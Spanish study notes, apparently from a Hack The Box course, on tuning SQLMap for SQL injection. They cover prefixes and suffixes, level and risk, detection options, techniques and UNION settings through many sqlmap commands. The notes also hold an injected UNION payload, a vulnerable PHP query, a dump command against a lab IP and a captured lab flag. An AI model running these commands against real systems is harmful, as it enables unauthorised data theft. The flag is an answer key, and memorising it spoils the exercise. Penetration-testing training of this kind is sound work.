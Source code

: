 
---
# Ajuste de Ataques en SQLMap

SQLMap está diseñado para funcionar de manera óptima con los detalles del objetivo proporcionados. Sin embargo, en algunos casos puede ser necesario ajustar la detección de SQLi para mejorar los resultados.

## Estructura de los Payloads

Cada payload enviado por SQLMap consta de:

- **Vector**: La parte central de la inyección, contiene el código SQL que se ejecutará en el objetivo.  
    _Ejemplo:_ `UNION ALL SELECT 1,2,VERSION()`
- **Boundaries**: Prefijo y sufijo que permiten insertar correctamente el vector en la consulta SQL vulnerable.  
    _Ejemplo:_ `<vector>-- -`

## Uso de Prefijo y Sufijo

En ciertos casos, SQLMap no puede inyectar directamente, por lo que se deben definir prefijos y sufijos específicos con `--prefix` y `--suffix`:

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Si la consulta vulnerable en el servidor es:

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
```

El payload:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

Esto ayuda en casos donde se requieren estructuras específicas para que la inyección sea exitosa.

## Nivel y Riesgo

SQLMap permite ajustar los vectores utilizados con las opciones:

- `--level` (1-5, por defecto 1): Amplía el número de vectores y boundaries utilizados. A mayor nivel, más pruebas con menor probabilidad de éxito.
- `--risk` (1-3, por defecto 1): Amplía el conjunto de vectores dependiendo del riesgo de afectar el sistema (pérdida de datos o DoS).

Ejemplo con máxima profundidad:

```bash
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

Esto incrementa el número de payloads enviados (de ~72 en `--level=1 --risk=1` hasta ~7,865 en `--level=5 --risk=3`).

⚠️ **Nota:** Aumentar estos valores ralentiza la detección. Solo modificar en casos donde los ataques estándar no sean efectivos.

## Depuración y Comparación de Payloads

Para observar las diferencias en los payloads generados con distintos niveles y riesgos, se puede usar `-v 3`:

```bash
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

Salida con `--level=5` (más payloads y pruebas adicionales):

```
[INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
[INFO] testing 'Oracle boolean-based blind - WHERE clause (CTXSYS.DRITHSX.SN)'
...
```

Salida con valores por defecto (`--level=1 --risk=1`):

```
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
```
![[Pasted image 20250130125544.png]]

## Ajustes Avanzados

SQLMap permite afinar la detección con varias opciones específicas:

### **Basado en Códigos de Estado HTTP**

Si las respuestas del servidor varían según el código HTTP (`200` para TRUE, `500` para FALSE), se puede especificar con:

```bash
sqlmap -u www.example.com/?id=1 --code=200
```

### **Basado en el Título de la Página**

Si el cambio en la respuesta está en la etiqueta `<title>`, se usa:

```bash
sqlmap -u www.example.com/?id=1 --titles
```

### **Detección Basada en Texto**

Si la diferencia entre respuestas se encuentra en el contenido, se puede fijar con:

```bash
sqlmap -u www.example.com/?id=1 --string="Login successful"
```

### **Filtrar Solo Texto Visible**

Para ignorar etiquetas HTML (`<script>`, `<style>`, etc.) y analizar solo el contenido visible:

```bash
sqlmap -u www.example.com/?id=1 --text-only
```

## Selección de Técnicas SQLi

En ciertos casos, es necesario limitar las pruebas a un tipo específico de inyección con `--technique`:

```bash
sqlmap -u www.example.com/?id=1 --technique=BEU
```

- `B` (Boolean-based blind)
- `E` (Error-based)
- `U` (Union-based)
- `S` (Stacked queries)
- `T` (Time-based blind)

_⚠️ Útil si ciertas técnicas generan problemas (por ejemplo, time-based causando timeouts)._

## Ajustes para Inyección UNION

Si una inyección UNION requiere datos específicos, podemos definir:

- Número de columnas:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-cols=5
    ```
    
- Valores de relleno en UNION:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-char='X'
    ```
    
- Tabla específica en `FROM` (para bases de datos como Oracle):
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-from=users
    ```
    

---

## Ejercicios

* Ejercicio 1:
	`sqlmap -u "http://83.136.249.42:36158/case5.php?id=1" -D testdb -T flag5 --dump --level=1 --risk=3 --no-cast`
* Ejercicio 2:
	
	HTB{v1nc3_mcm4h0n_15_4570n15h3d}